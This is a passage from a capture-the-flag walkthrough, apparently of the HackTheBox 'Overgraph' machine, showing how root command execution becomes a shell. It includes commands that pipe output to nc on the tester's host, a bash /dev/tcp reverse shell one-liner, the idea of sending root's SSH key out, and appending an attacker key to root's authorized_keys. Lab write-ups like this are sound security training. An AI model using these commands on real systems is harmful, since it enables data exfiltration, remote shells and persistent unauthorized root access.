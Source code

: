 -   Run commands and pipe into `nc` to send back to my VM. It works, and
    looks like:

    <div>

    <div>

        root@overgraph:~# id | nc 10.10.14.6 443

    </div>

    </div>

    <div>

    <div>

        oxdf@hacky$ nc -lnvp 443
        Listening on 0.0.0.0 443
        Connection received on 10.10.11.157 49866
        uid=0(root) gid=0(root) groups=0(root)

    </div>

    </div>

-   Get a reverse shell using
    `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'`.

-   Check for a root SSH key and send it back over `nc` or `curl`.

-   Write my own SSH key into `authorized_keys`.

I'll use this one line to create the `.ssh` directory if it doesn't
exist, add my key to the `authorized_keys` file (appending so as to not
overwrite if it does exist), and then make sure the permissions are good
for SSH to trust it:



    root@overgraph:~# $ mkdir -p /root/.ssh/; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys; chmod 600 /root/.ssh/authorized_keys



After that, I'm able to SSH as root:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@graph.htb
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
    ...[snip]...
    root@overgraph:~# 







